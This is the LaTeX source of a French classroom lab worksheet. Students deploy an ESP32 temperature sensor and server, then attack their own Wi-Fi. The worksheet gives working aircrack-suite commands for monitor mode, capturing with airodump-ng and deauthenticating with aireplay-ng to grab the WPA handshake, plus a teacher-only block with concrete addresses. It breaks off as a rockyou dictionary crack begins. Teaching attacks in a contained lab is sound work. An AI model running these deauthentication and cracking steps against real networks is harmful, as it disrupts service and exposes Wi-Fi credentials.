\documentclass[french, 12pt]{article}%

\usepackage[utf8]{inputenc}  
\usepackage[francais]{babel}
\usepackage{appendix}
\usepackage{pdfpages} 
\usepackage{eurosym}
\usepackage{enumitem}
%\usepackage[T1]{fontenc}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newcommand{\itemE}{\item[$\bullet$]}
\newcommand{\titreSeq}{Réseau Wifi de la salle de concert CIEL}
\newcommand{\lycee}{Lycée Brocéliande}
\newcommand{\classSeq}{CIEL }
\newcommand{\matiereSeq}{IR}      
\newcommand{\numSeq}{Cyber}
\newcommand{\numAct}{Wifi-01}
\newcommand{\objSeance}{Établir une topologie de tests}

\newcommand{\moySeq}{\begin{itemize}	
\itemE Esp32
\itemE IDE de programmation ESP32
\itemE Machine windows
\end{itemize}}

\newcommand{\compSeq}{\begin{itemize}
\item  
\end{itemize}}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%Algo
\usepackage[linesnumbered, french]{algorithm2e}
\SetKwFor{For}{Pour}{faire}{fin}
\SetKwFor{While}{Tant que}{faire}{fin}%
\SetKw{KwTo}{à}
\SetKw{KwPas}{par pas de}
\SetKw{KwRet}{Retourne}
\SetKwProg{Fn}{Fonction }{ arguments }{fin}
\SetKwRepeat{Repeat}{Répéter}{jusqu'à}%
\SetKwIF{If}{ElseIf}{Else}{Si}{alors}{Sinon si}{Sinon}{Fin}

\usepackage{listings} %%%%Présenration code source
\lstset{language=C++,
    %numbers=left,
   %stepnumber=1,
    showstringspaces=false,
    tabsize=1,
    breaklines=true,
    breakatwhitespace=false,
    basicstyle=\footnotesize,
    keywordstyle=\color{blue}\footnotesize,
    stringstyle=\color{red}\footnotesize,
    commentstyle=\color{magenta}\footnotesize,
    morecomment=[l][\color{magenta}]{\#}
    }
\lstdefinestyle{commande}{
  basicstyle=\ttfamily\footnotesize,
  keywordstyle=\color{blue},
  commentstyle=\color{gray},
  %numbers=left,
  %numberstyle=\tiny\color{gray},
  numbersep=5pt,
  breaklines=true,
  frame=single,
  backgroundcolor=\color{lightgray!10}
  %captionpos=b,
  %caption=\lstname  
}
%\usepackage[T1]{fontenc}


% Margins
\topmargin=-0.45in
\evensidemargin=0in
\oddsidemargin=0in
\textwidth=6.5in
\textheight=9.0in
\headsep=0.25in 


\linespread{1.1} 
\usepackage{amsmath}%
\usepackage{amsfonts}%
\usepackage{amssymb}%
\usepackage{graphicx}
\usepackage{lastpage}
\usepackage{enumitem}

%\usepackage[T1]{fontenc}    
\usepackage{multirow}
\usepackage{lscape}
\usepackage[colorlinks = true,
            linkcolor = blue,
            urlcolor  = blue,
            citecolor = blue,
            anchorcolor = blue]{hyperref}
\usepackage{array}
\usepackage{mwe}
%-------------------------------------------
\newtheorem{theorem}{Theorem}
\newtheorem{summary}[theorem]{Summary}
\newenvironment{proof}[1][Proof]{\textbf{#1.} }{\ \rule{0.5em}{0.5em}}



\usepackage{xcolor}

\usepackage{colortbl}
\setlength{\doublerulesep}{\arrayrulewidth}
%-------------------------------------------
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\usepackage[framemethod=tikz]{mdframed}
\usepackage{tikz, xcolor, lipsum}
\makeatletter
\mdfsetup{skipabove=\topskip,skipbelow=\topskip}

\tikzset{titre_bleu_snir/.style =
	{draw=vert_capet, line width=1.5pt, fill=white,
	rectangle, rounded corners, right,minimum height=2em}}
\newcommand{\titreencadre}{Titre}
\makeatletter
\mdfdefinestyle{encadrestyle}{%
	linewidth=1.5pt,roundcorner=5pt,linecolor=vert_capet,
	apptotikzsetting={\tikzset{mdfbackground/.append style ={%
		fill=white}}},
	frametitlefont=\bfseries,
	singleextra={%
		\node[titre_bleu_snir,xshift=2em] at (P-|O) %
			{~\mdf@frametitlefont{\titreencadre}\hbox{~}};},
	firstextra={%
		\node[titre_bleu_snir,xshift=2em] at (P-|O) %
		{~\mdf@frametitlefont{\titreencadre}\hbox{~}};},
	}
\mdfdefinestyle{encadresanstitrestyle}{%
	linewidth=1.5pt,roundcorner=5pt,linecolor=vert_capet
	apptotikzsetting={\tikzset{mdfbackground/.append style ={%
		fill=yellow!20}}},
	}

\newenvironment{encadre}[1]{\renewcommand{\titreencadre}{#1}
	\begin{mdframed}[style=encadrestyle]
	\vspace{0.5\baselineskip}
	}{%
	\end{mdframed}}

\newenvironment{encadresanstitre}{
	\begin{mdframed}[style=encadresanstitrestyle]
	}{%
	\end{mdframed}}
\makeatother
\usepackage{colortbl}
\definecolor{vert_capet}{RGB}{191,255,191}	
\definecolor{bleu_snir}{RGB}{191,255,191} %%{101,191,179}	
\setlength{\doublerulesep}{\arrayrulewidth}
%-------------------------------------------
\usepackage{comment}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newif\ifPROF

%\def\PourProf{0}
\ifdefined\PourProf
  \PROFtrue
  \newenvironment{corr}{\begingroup \color{red}}{\normalcolor \endgroup}
\else
  \PROFfalse
  \newenvironment{corr}{\begingroup \color{white}}{\normalcolor \endgroup}
\fi
%\PROFtrue

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%




%%%Note et pied de page
\usepackage{fancybox}
\usepackage{fancyhdr}
\usepackage[a4paper,margin=2.5cm,bottom=2cm,headheight=2cm]{geometry}
\pagestyle{fancy}
\fancyhead[R]{
\includegraphics[scale=0.3]{logo_CIEL.png}}
\fancyhead[C]{Prénom}
\fancyhead[L]{Nom}
\fancyfoot[C]{Page \thepage/\pageref{LastPage}}
\fancyfoot[L]{\classSeq ~\matiereSeq}
\fancyfoot[R]{Foramation \numSeq  ~ Act \numAct}
\renewcommand{\headrulewidth}{1pt}
%%%Note et pied de page 



\begin{document}

\title{\titreSeq\\
 
\includegraphics[scale=0.5]{logo_CIEL.png}\\
}
\author{\lycee}
\date{}%\today}
%\maketitle

\noindent\begin{tabular}{!{\vrule width 1.5pt}m{0.7\linewidth}!{\vrule width 1.5pt}m{0.2\linewidth}!{\vrule width 1.5pt}}
\hline\hline
\cellcolor{bleu_snir}
\begin{center}
	\Large\textbf{\titreSeq}  
\end{center}
  & 

\begin{minipage}{1.0\linewidth}
  \vspace*{0.1cm} 
\centering
\includegraphics[scale=0.2]{logo_lycee.jpg}

{\tiny\today}
  \vspace*{0.1cm} 
\end{minipage}\\ \hline\hline

\multicolumn{2}{!{\vrule width 1.5pt}l!{\vrule width 1.5pt}}{
\begin{minipage}{14cm}
\vspace*{0.1cm} 
\textbf{Objectif} : \objSeance
\vspace*{0.1cm} 
\end{minipage}} \\ \hline\hline

\multicolumn{2}{!{\vrule width 1.5pt}l!{\vrule width 1.5pt}}{
\begin{minipage}{14cm}
\vspace*{0.1cm} 
\textbf{Moyens} : 
\moySeq
\vspace*{0.1cm} 
\end{minipage}} \\ \hline\hline
%
%\multicolumn{2}{!{\vrule width 1.5pt}l!{\vrule width 1.5pt}}{
%\begin{minipage}{14cm}
%\vspace*{0.1cm}
%\tiny
%Compétences attendues :
%\compSeq
%\vspace*{0.1cm}
%\end{minipage}}
%\normalsize \\ \hline\hline
\end{tabular}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\vspace{0.25cm}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  DEBUT %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Contexte}

Pour des raisons de sécurité des personnes, il est obligatoire depuis le 12 juillet 2010 de surveiller périodiquement la qualité de l'air intérieur dans certains établissement recevant du public (ERP). \href{https://www.legifrance.gouv.fr/jorf/id/JORFTEXT000046829352}{Sante.gou.fr : Surveillance de la qualité de l'air}


Nous allons étudier le système de surveillance et d'aértion d'une salle de concert constituée de : 
\begin{itemize}
\itemE Un ensemble de capteurs connectés mesurant le taux de C02 et la température. Il communique en Wifi avec le reste du réseau
\itemE Un serveur récupérant les données des capteurs
\itemE Un ventilateur pouvant être actionné à distance par le serveur en fonction du taux de CO2 et/ou de la température
\end{itemize}

Le réseau peut être modélisé de la manière suivante 


\begin{center}

\includegraphics[scale=0.5]{./ressource/topologIeWifiEntreprise.png}
\end{center}


Pour simplifier l'étude, nous considérons que 
\begin{itemize}
\itemE Seul la température est mesurée par les capteurs et envoyé au serveur
\itemE L'activation ou l'arrêt de l'interrupteur sera modélisé par un simple message sur le serveur
\end{itemize}

\section{Pour les manipulations}
Vous allez être 7 groupes à successivement pirater et protéger les données envoyées par les capteurs. Chaque groupe possède : 
\begin{itemize}
\itemE Une carte Esp32 faisant office de capteur
\itemE Un PC Windows (ou potentiellement linux) faisant office de serveur
\itemE Une VM Kali (avec un dongle Wifi) faisant office de pirate. 
\end{itemize}

\begin{center}

\includegraphics[scale=0.7]{./ressource/topologieActivite}
\end{center}


Pour ne pas perturber les manipulations de vos voisins, vous allez cibler uniquement la carte \textbf{esp32} présente sur votre table.  Chaque carte-peut-être identifié par son adresse MAC (attention toutefois, elle peut être usurpées). Nous verrons comment la récupérer.

%Pour la récupérer, vous allez devoir utiliser le code uploader dans l'esp32 le code \verb?00-recuperationAddrMac.ino? présent dans \verb?00-recuperationAddrMac?. 
%
%\begin{enumerate}
%%%\item A l'aide  la vidéo nommée \verb?VSCodeExplication.mp4? présente dans le même répertoire \verb?ressource_eleve?, uploader le programme
%\item En étudiant le retour de votre communication, Noter votre adresse MAC
%\end{enumerate}
%
%Dans le exemple l'adresse MAC utilisé sera : 
%\begin{lstlisting}[style=commande]
%--- Quit: Ctrl+C | Menu: Ctrl+T | Help: Ctrl+T followed by Ctrl+H
%Adresse MAC de l'ESP32 :
%C8:C9:A3:FC:B1:DC
%\end{lstlisting}
%
%\paragraph{Pour l'utilisation de VScode avec l'esp32}, toute l'aide est donnée ici: 
%\begin{itemize}
%\itemE \href{https://docs.platformio.org/en/latest/integration/ide/vscode.html}{https://docs.platformio.org/en/latest/integration/ide/vscode.html}
%\end{itemize}

\newpage
\section{Technicien SOC}

Vous prenez le rôle d'un technicien supérieur du SOC et vous allez mettre en place le système constitué 


\begin{minipage}{0.55\linewidth}
\begin{itemize}
\itemE D'un serveur permettant la récupération de données de température
\itemE D'un device esp32 permettant l'envoi de la température
\end{itemize}
\end{minipage}
\begin{minipage}{0.44\linewidth}
\begin{center}

\includegraphics[scale=0.7]{./ressource/cyberHro.png}
\end{center}
\end{minipage}

\subsection{Le serveur}

\paragraph{Type de serveur} Le serveur  est un serveur http très simplifié pour les besoins des manipulation. Il est codé en python et ne permet qu'une connexion de capteur.  

\begin{enumerate} [resume]
\item Ouvrer le programme python du serveur avec l'IDE de votre choix. Il se nomme \verb?01-serveurWifi.py? et se trouve dans le répertoire \verb?01-recuperationTemperature?
\item Vérifier le port d'écoute 
\item Lancer le programme 
\end{enumerate}

Vous devez obtenir dans un terminal les lignes suivantes : 
\begin{lstlisting}[style=commande]
python.exe .\00-serveurWifi.py
Serveur en ecoute sur le port 80 ...
\end{lstlisting}


%%%%%%%%%%%%%%%%%%%%%
\vspace{0.5cm}
\begin{center}
 \rule{0.75\linewidth}{1pt}
\end{center}
\begin{minipage}[c]{0.59\linewidth}

\textbf{Le serveur se met en attente d'une connexion !!}
\end{minipage}
\begin{minipage}[c]{0.4\linewidth}
\begin{center}

\includegraphics[scale=0.1]{./ressource/OKLogo}
\end{center}
\end{minipage}
\begin{center}
 \rule{0.75\linewidth}{1pt}
\end{center}
%%%%%%%%%%%%%%%%%%%%%

\subsection{Coté device}

\begin{enumerate} [resume]
\item Ouvrir  le fichier \verb?01-recuperationTemperature.ino? dans le répertoire \verb?01-recuperationTemperature? 
\end{enumerate}
%
%\begin{center}
%
\includegraphics[scale=0.3]{./ressource/openProjet}
%\end{center}

\begin{enumerate} [resume]
\item Compiler et uploader le projet sur la carte. \textbf{Attention cela peut prendre un peu de temps}.
\item Pendant ce temps que pouvez vous étudiez le code source. Que comprenez-vous?.... 
\end{enumerate}

\paragraph{C'est incompréhensible $\Rightarrow$ normal, le code source est obfuscé}


\begin{encadre}{Obfuscation}
Technique qui consiste à rendre un code informatique le plus difficilement compréhensible possible par un être humain, tout en le laissant bien entendu parfaitement fonctionnel. Objectif : 
\begin{itemize}
\itemE Faire  perdre du temps à l’analyste qui tente de comprendre ce que fait réellement le programme étudié (le poussant potentiellement à l'abandon)
\itemE Dissimuler du code malveillant
\itemE Protéger les algorithmes ou toute autre propriété intellectuelle
\end{itemize}
\end{encadre}

\paragraph{Il ne vous est pas demandé de dé-obfuscer le code source donné}. L'obfuscation du code est présente pour garder le suspense du mot de passe et des données envoyées. 

\vspace{0.5cm}



\subsection{Fonctionnement}
\begin{itemize}
\itemE Coté serveur, vous voyez apparaître la température (de la carte et non la température extérieur)
\end{itemize}
\begin{lstlisting}[style=commande]
ID : ESP32-001
Temperature : 53.33 C
\end{lstlisting}

\begin{itemize}
\itemE Coté device, vous voyez la connexion et le retour du serveur
\end{itemize}


\begin{lstlisting}[style=commande]
Connexion a cielCyber

Connecte au reseau Wi-Fi !
Adresse IP de l'ESP32 : 192.168.1.17
Adresse MAC de l'ESP32 :
C8:C9:A3:FC:B1:DC
Reponse du serveur : {"status": "OK"}

\end{lstlisting}

\begin{enumerate} [resume]
\item Dans le moniteur série de l'interface Arduino, après le téléversement et le reset de la carte, vous pouvez observer l'adresse IP et l'adresse MAC de votre device. Notez dans un coin
\end{enumerate}


\begin{enumerate} [resume]
\item A l'aide de Wireshark, sur le serveur (PC windows), Remplir le tableau suivant 
\end{enumerate}


\ifPROF
\footnotesize
\color{red}
\begin{tabular}{|p{3.5cm}|p{3.5cm}|p{3.5cm}|p{3.5cm}|}
\hline
\rowcolor{vert_capet} Ip serveur & MAC serveur & IP device & MAC device \\ \hline
 192.168.1.19  & 4C:0F:6E:6F:8F:DF & 192.168.1.17 & C8:C9:A3:FC:B1:DC\\ \hline 
\end{tabular}
\normalcolor
\else
\begin{tabular}{|p{3.5cm}|p{3.5cm}|p{3.5cm}|p{3.5cm}|}
\hline
\rowcolor{vert_capet} Ip serveur & MAC serveur & IP device & MAC device \\ \hline
  &  &  & \\ \hline 
\end{tabular}
\fi

\begin{encadre}{Rappel : Un vrai pirate}
Lors d'une véritable attaque, le pirate n'aurait pas besoin de cette étape. Il sélectionnerait un appareil 'au hasard'. Cette étape est simplement là pour que chaque groupe attaque son propre appareil.
\end{encadre}

%%%%%%%%%%%%%%%%%%%%%
\vspace{0.5cm}
\begin{center}
 \rule{0.75\linewidth}{1pt}
\end{center}
\begin{minipage}[c]{0.59\linewidth}

\textbf{Votre système est opérationnel!!}
\end{minipage}
\begin{minipage}[c]{0.4\linewidth}
\begin{center}

\includegraphics[scale=0.1]{./ressource/OKLogo}
\end{center}
\end{minipage}
\begin{center}
 \rule{0.75\linewidth}{1pt}
\end{center}
%%%%%%%%%%%%%%%%%%%%%

\newpage
\section{Pirate : Récupération de la trame}

Vous prenez maintenant le rôle du pirate : 
\begin{itemize}
\itemE Votre objectif va être de vous faire passer pour un capteur et d'envoyer des fausses informations au serveur pour qu'il se mette en alerte.  
\end{itemize}


\begin{minipage}{0.55\linewidth}
La démarche va être la suivante : 
\begin{itemize}
\itemE Récupérer le mot de passe du réseau Wifi
\itemE Analyser le traffic Wifi
\itemE Regarder le formalisme de la trame envoyée par le capteur
\itemE Simuler un capteur avec des données erronées. 
\end{itemize}
\end{minipage}
\begin{minipage}{0.35\linewidth}
\begin{center}

\includegraphics[scale=0.5]{./ressource/logoHacker.png}
\end{center}
\end{minipage}





\subsection{Récupération du mot de passe}
\subsubsection{Configuration du Wifi dans Kali}

\begin{enumerate}[resume]
\item Dans la configuration de kali, vérifier que le contrôleur USB soit bien en 2.0 :
\begin{center}

\includegraphics[scale=0.7]{./ressource/usbcontroller}
\end{center}
\item Brancher un dongle Wifi
\item Lancer kali
\item Dans Périphérique/USB, connecter le device à votre VM Kali.
\begin{center}

\includegraphics[scale=0.4]{./ressource/usbConnexion}
\end{center}

\item En exécutant la commande \verb?ip a? dans un terminal, vous devez voir apparaître une interface WIFI \verb?wlan0mon?
\end{enumerate}


\begin{lstlisting}[style=commande]
$ ip a                         
1: lo ....
....
2: eth0 ....
....
3: wlan0mon: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default qlen 1000
    link/ether ee:2d:ae:2e:bf:eb brd ff:ff:ff:ff:ff:ff permaddr e8:4e:06:33:2c:14
\end{lstlisting}                                                                                

\begin{enumerate}[resume]
\item Vérifier son état. Elle doit être en mode moniteur ce qui n'est pas le cas dans l'exemple ci-dessous (mode : \verb?Managed?)
\end{enumerate}

\begin{lstlisting}[style=commande]
$ iwconfig
....
wlan0mon     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr=2347 B   Fragment thr:off
          Power Management:off
\end{lstlisting}    




\begin{encadre}{Mode moniteur / Managed}
\begin{itemize}
\itemE Mode Moniteur : Permet à la carte Wi-Fi de capter tous les paquets de données sur un réseau sans être connectée à un point d'accès, utilisé pour l'analyse et le piratage Wi-Fi.
\itemE  Mode Managed : Permet à la carte Wi-Fi de se connecter à un réseau Wi-Fi en tant que client, pour naviguer sur Internet ou se connecter à un point d'accès.
\end{itemize}
\end{encadre}



\begin{enumerate}[resume]
\item Passer en mode moniteur
\end{enumerate}
\begin{lstlisting}[style=commande]
$ sudo airmon-ng
$ sudo airmon-ng start wlan0mon
$ iwconfig
\end{lstlisting} 

\begin{enumerate}[resume]
\item Vérifier que votre interface est bien en mode moniteur 
\end{enumerate}
\begin{lstlisting}[style=commande]
$ iwconfig

wlan0mon     IEEE 802.11  Mode:Monitor  ....
\end{lstlisting}

\ifPROF
\color{red}
Autre méthode pour le mode moniteur
\begin{lstlisting}[style=commande]
$ sudo ip link set wlan0mon down
$ sudo ip link set wlan0mon type monitor
$ sudo ip link set wlan0mon up
$ iwconfig
\end{lstlisting} 
\normalcolor
\fi


\subsubsection{Récupération du mot de passe Wifi}

\paragraph{Principe}
Pour récupérer le mot de passe, vous allez utiliser l'attaque nommée \textbf{4-way Handshake}. Son principe est le suivant :
\begin{itemize}
\itemE \textbf{Capture du 4-way handshake} : Le pirate intercepte la communication entre un client et le point d'accès durant l'établissement de la connexion Wi-Fi sécurisée.
\itemE \textbf{Analyse du handshake} : L'attaquant analyse les quatre paquets échangés pendant la négociation de la clé de session entre le client et le point d'accès, contenant des informations essentielles.
\itemE \textbf{Brute force ou décryptage hors ligne} : L'attaquant tente de déchiffrer le mot de passe Wi-Fi en utilisant des techniques de brute force ou un dictionnaire de mots de passe, en s'appuyant sur les données capturées lors du handshake.
\itemE \textbf{Accès au réseau} : Si l'attaque réussit, l'attaquant obtient le mot de passe et peut se connecter au réseau Wi-Fi.
\end{itemize}

\begin{encadre}{Handshake}
Echange initial de messages entre deux parties dans un réseau ou un protocole, permettant d'établir une connexion sécurisée ou d'authentifier les participants avant de commencer une communication.
\end{encadre}


\paragraph{Capture et dé-authentification}

\begin{itemize}
\itemE Avant de démarrer, vérifier que tous le serveur et le device sont opérationnels
\end{itemize}

\begin{lstlisting}[style=commande]
$ sudo airodump-ng wlan0mon
\end{lstlisting}


\begin{center}

\includegraphics[scale=0.7]{./ressource/visuaReseau.png}
\end{center}

\begin{enumerate}[resume]
\item Quel est le BSSID du réseau à attaquer et le channel utilisé? 
\end{enumerate}

\ifPROF
\footnotesize
\color{red}
\begin{tabular}{|p{3.5cm}|p{3.5cm}|}
\hline
\rowcolor{vert_capet} BSSID & Channel\\ \hline
78:45:58:FA:AD:30  & 10\\ \hline 
\end{tabular}
\normalcolor
\else
\begin{tabular}{|p{3.5cm}|p{3.5cm}|}
\hline
\rowcolor{vert_capet} BSSID & Channel\\ \hline
& \\ \hline 
\end{tabular}
\fi




Si le dongle Wifi fonctionne et que vous voyez apparaître les différents réseaux, quittez la capture : CTRL+ C? Vous allez pouvoir lancer l'attaque  : 
\begin{enumerate}[resume]
\item Dans un terminal après s'être placé dans un répertoire de travail, lancer la capture de tous les paquets Wifi sur le réseau et le channel souhaité : 
\end{enumerate}

\begin{lstlisting}[style=commande]
& sudo iwconfig wlan0mon channel CHANNEL
$ sudo airodump-ng -c CHANNEL wlan0mon -w NOMFICHIER --bssid XX:XX:XX:XX:XX:XX
\end{lstlisting}
où : 
\begin{itemize}
\itemE \verb?CHANNEL? : numéro du channel 
\itemE \verb?NOMFICHIER.cap? : nom du fichier contenant la capture
\itemE \verb?XX:XX:XX:XX:XX:XX? : BSSID du réseau 
\end{itemize}

\ifPROF
\color{red}

\begin{lstlisting}[style=commande]

$ sudo airodump-ng -c 10 wlan0mon -w WifiCapture --bssid 78:45:58:FA:AD:30

$ sudo aireplay-ng --deauth 1000 -a 78:45:58:FA:AD:30 -c C8:C9:A3:FC:B1:DC  wlan0mon
\end{lstlisting}

\normalcolor
\fi

\begin{enumerate}[resume]
\item Dans un autre terminal (c.f copie d'écran ci-dessous), forcer la déconnexion du device que vous voulez attaquer. Le device va alors tenté de se reconnecter. Le pirate peut alors capturer le handshake.
\end{enumerate}

\begin{lstlisting}[style=commande]
$ sudo aireplay-ng --deauth 4 -a XX:XX:XX:XX:XX:XX -c YY:YY:YY:YY:YY:YY  wlan0mon
\end{lstlisting}
où : 
\begin{itemize}
\itemE \verb?--deauth 2? : spécifie le nombre de paquet de dé-authentification envoyé du pirate au device. Il peut être augmenté. L'attaque sera plus longue. Il est possible de l'arrêter avec un CTRL+L
\itemE \verb?CHANNEL? : numéro du channel 
\itemE \verb?NOMFICHIER.cap? : nom du fichier contenant la capture
\itemE \verb?XX:XX:XX:XX:XX:XX? : BSSID du réseau 
\itemE \verb?YY:YY:YY:YY:YY:YY? : SSI du device attaqué
\end{itemize}

\begin{center}

\includegraphics[scale=0.4]{./ressource/screenAttaque}
\end{center}


\paragraph{Arrêt de la capture}
\begin{enumerate}[resume]
\item Au bout de quelques dizaine de seconde, arrêter la dé authentification  : \verb?CTRL+C? dans le terminal de "capture" (celui de gauche dans la fenêtre ci-dessus). 

\item L'attaque peut aussi être arrêtée lorsque le device s'est reconnecté au serveur et que les données de température sont envoyées de nouveau au serveur. Vous pouvez attendre une trentaine de seconde pour s'assurer que de nouvelles données de température est été envoyée. Ci-dessous, vous pouvez observer coté device,  la reconnexion du device au serveur.
\end{enumerate}

\begin{center}

\includegraphics[scale=0.7]{./ressource/moniteurVS}
\end{center}



\paragraph{Crackage de la clef WPA}
Vous allez utiliser une attaque par dictionaire pour récupérer la clef WPA

\begin{encadre}{Attaque par dictionnaire}
Méthode de craquage de mot de passe qui consiste à tester systématiquement une liste de mots de passe préalablement définie (un dictionnaire) pour trouver la combinaison correcte permettant de déchiffrer un fichier ou d'accéder à un système protégé.
\end{encadre}

Le dictionnaire que vous allez utiliser est \verb?rockyou.txt?.


\begin{enumerate}[resume]
\item Vérifier que le fichier existe 

\verb?/usr/share/wordlists/rockyou.txt?
\end{enumerate}


\begin{enumerate}[resume]
\item Si le fichier n'existe pas, il faut le dézipper.
\end{enumerate}

\begin{lstlisting}[style=commande]
